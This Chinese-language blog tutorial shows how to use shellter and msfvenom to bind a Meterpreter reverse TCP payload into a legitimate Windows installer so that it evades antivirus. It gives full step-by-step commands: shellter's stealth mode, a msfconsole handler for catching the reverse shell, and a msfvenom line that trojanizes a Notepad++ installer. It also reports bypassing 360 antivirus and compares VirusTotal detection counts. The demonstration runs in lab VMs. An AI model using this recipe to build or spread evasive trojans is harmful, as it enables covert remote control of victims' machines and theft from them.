```yaml
---
title: 免杀捆绑工具 shellter 的安装及使用
date: 2022-4-16 18:10:24
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - [Cyber Security,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443290/Typera/2023/04/d9bcdac19a99f14fe88a3ed9e829d637.png
---
```


:::default
**shellter** 是一个**捆绑**工具，采用动态 **shellcode** 注入 的方式，将 **shellcode** 注入到其它程序中，达到**免杀**的效果，躲避杀软的查杀。
:::

## shellter 安装
1. 添加 **i386 32位** 架构支持、更新 **apt**、安装 **wine** 依赖：
	- `dpkg --add-architecture i386 && apt update && apt -y install wine32`
2. 安装 **shellter**：
	- `apt install shellter`
	![image-20230426011840045](https://res.cloudinary.com/sycamore/image/upload/v1682443125/Typera/2023/04/0c4297a033272d1212d9cb86e4daf005.png)
## shellter 使用
> 使用 shellter 捆绑 Meterpreter_Reverse_TCP

**捆绑步骤：**
1. 命令行输入 `shellter` 打开工具
2. 输入 `A` 或者 `a`，选择 **自动模式**；
3. `PE Target:` 后输入要进行 **捆绑** 的 **文件路径**
![image-20230426011919683](https://res.cloudinary.com/sycamore/image/upload/v1682443164/Typera/2023/04/272fa29e9da9d004a3cf25b87079f7de.png)
<br>
4. 输入`Y`，进入 **隐形模式**
![image-20230426011923428](https://res.cloudinary.com/sycamore/image/upload/v1682443168/Typera/2023/04/0ac54c6f74fda57f2a51ac0b8bde409f.png)
<br>
5. 输入`L`，使用 **payload** 攻击模块列表（即上面的 **1~7** ）
6. **payload** 编号选择 `1` ，使用 Meterpreter_Reverse_TCP 攻击
![image-20230426011927372](https://res.cloudinary.com/sycamore/image/upload/v1682443172/Typera/2023/04/073c31195d0c78a68e8b3c2fecbc8531.png)
<br>
7. 分别输入监听端的 **IP**、**端口号**
![image-20230426011931101](https://res.cloudinary.com/sycamore/image/upload/v1682443175/Typera/2023/04/396417290b20f351cc3c1d96669a3c4e.png)
<br>
8. 按 `[Enter]` 退出 **shellter** ：
![image-20230426011934700](https://res.cloudinary.com/sycamore/image/upload/v1682443179/Typera/2023/04/0169aba2f4b7dfa0ba83b3304994339f.png)

<br>

**[ 关于生成的文件 ]**
> **捆绑完毕**的文件 会代替 **原文件** ，即出现在 原文件目录 下，**名字相同**
> 而**原文件**会 **备份** 在目录 `/root/Shellter_Backups/` ：
> ![image-20230426011938517](https://res.cloudinary.com/sycamore/image/upload/v1682443183/Typera/2023/04/9b58fed5ce217d4b84967579f2522d55.png)
## 利用 & 免杀效果
### 利用
1. 上传到 **Win7_x64** 虚拟机，
2. **Kali_Linux** 虚拟机打开 **msf** （命令 `msfconsole`），监听**反弹 shell**：
	- `use exploit/multi/handler`
	- `set payload windows/meterpreter/reverse_tcp`
	- `set LHOST 192.168.158.139`
	- `set LPORT 4444`
	- `run`

**反弹 shell** 成功！
![image-20230426011944783](https://res.cloudinary.com/sycamore/image/upload/v1682443189/Typera/2023/04/4eff497abdd31d7be53e51e0d88f75f7.png)

### 免杀效果
我的 **Win7_x64 虚拟机** 安装了 **360 全家桶**，

但是 **静态检测** 貌似并没有查出 **木马文件** ~

运行木马程序，并成功获得 **meterpreter** 的 **shell** 之后，**360** 竟然也没有第一时间报毒。。。 什么情况 (⊙_⊙)？

大概一分钟之后，才提示有木马：
![image-20230426011949574](https://res.cloudinary.com/sycamore/image/upload/v1682443194/Typera/2023/04/69719cbb27c9df97660f0c6405be89c7.png)
（实际上这个时间足够黑客 **迁移进程** 并 **布置后门** 了)

当然，如果你的电脑以前中过这个毒，**360** 会第一时间反应过来
（但这要是**还没反应**，**360** 就该进回收站了）

然后看看 **virustotal** 的检测情况（**31 / 70**）：[检测报告 传送门1](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
![image-20230426011954090](https://res.cloudinary.com/sycamore/image/upload/v1682443198/Typera/2023/04/6a65ae126f5f5f5c0658d6165d837a04.png)

***对比 ：***
使用 同程序 同**payload**，用 **msf** 自带的捆绑手段生成的木马：
（命令：`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`）

**virustotal** 的检测情况（**40 /  70**）：[检测报告 传送门2](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
![image-20230426011958597](https://res.cloudinary.com/sycamore/image/upload/v1682443202/Typera/2023/04/c0631de31f6d8f365c052ec14a014b37.png)

> 相比较而言，可以说 **shellter** 的捆绑**免杀**效果比 **msf** 好很多了。
